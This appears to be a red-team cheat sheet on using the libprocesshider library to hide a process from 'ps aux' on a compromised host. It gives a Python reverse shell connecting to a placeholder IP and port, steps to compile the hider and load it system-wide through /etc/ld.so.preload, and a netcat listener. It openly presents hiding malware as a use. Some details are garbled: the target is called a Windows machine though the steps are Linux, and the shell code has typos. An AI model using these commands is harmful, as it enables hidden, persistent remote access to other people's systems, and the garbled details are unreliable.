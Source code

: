 
## General

GOAL ---> Hide process from `ps aux`

Libprocesshider is a library that allows software developers to hide the details of a process from the operating system. It provides an API for hiding the process name and arguments, as well as for hiding the presence of the process from process management utilities. The library is useful for hiding the details of malware or other types of malicious software, as well as for protecting proprietary software from reverse engineering.

Important
- Can only hide one process at the time


## Commands

The  reposity need to be cloned on the target (windows machine)

Download the reposity (Target)
```
git clone https://github.com/gianlucaborello/libprocesshider.git
```

Create reverse shell and compile the code (Target) 
```
# Create a rever shell (reverse_shell.py)
nano reverse_shell.py
	#!/usr/bin/python3 
	from os import dup2  
	from subprocess import run
	import socket  
	s-socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("IP",PORT))  
	dup2(s.fileno(),0)  
	dup2(s.fileno(),1)
	dup2(s.fileno(),2)  
	run([*/bin/bash","-i*])

# Give chmod permission
chmod +x reverse_shell.py

# Edit processhider.c
nano processhider.c
- Change the script name of the python code for your evil code
- Save

# Compile the code in the direcotry
USER@sid:~/libprocesshider$ make
'---> This will create libprocesshider.so

# Copy the file in the right folder
cp libprocesshider.so /usr/local/lib/

# Load it with the global dynamic linker
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

Launch the reverse_shell
```
./reverse_shell.py
```

Netcat Lisener (Attacking)
```
nc -lvnp PORT
```

The process should now be hiden


## More Information

More information ---> https://github.com/gianlucaborello/libprocesshider

<iframe src="https://github.com/gianlucaborello/libprocesshider" width="100%" height="1300"></iframe>